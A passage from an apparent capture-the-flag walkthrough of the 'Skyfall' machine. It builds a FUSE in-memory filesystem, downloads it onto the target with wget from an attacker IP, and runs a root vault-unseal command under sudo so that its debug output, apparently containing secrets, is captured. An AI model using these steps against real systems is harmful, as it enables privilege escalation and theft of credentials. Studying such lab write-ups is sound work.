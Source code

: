 ```bash
./memfs MOUNTPOINT BACKING-PREFIX
```

- `MOUNTPOINT`: directory where to mount FS.  
- `BACKING-PREFIX`: prefix where file writes get mirrored.

Demo:

```bash
mkdir ~/testfs
./memfs ~/testfs memfsoutput-
```

From another terminal:

```bash
echo "testing..." > ~/testfs/file1
```

Result: a log file `memfsoutput-1` appears in the *launch directory*, capturing the content.

### 3.3 Modifying to Support `allow_other`

If root writes to FS, without `allow_other` it fails (`Permission denied`).  
Fix: edit `main.go` to include:

```go
server, err := fuse.NewServer(conn.RawFS(), mountPoint, &fuse.MountOptions{
    Debug: *debug,
    AllowOther: true,
})
```

Rebuild:

```bash
go build -buildvcs=false
```

Now, root can also write.

---

## 4. Deploy on Skyfall

Upload and run:

```bash
askyy@skyfall:/dev/shm$ wget http://10.10.14.6/memfs
chmod +x memfs
mkdir out
./memfs out/ out
```

It hangs on `Mounted!` (normal). Open another shell:

```bash
cd /dev/shm/out
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
```
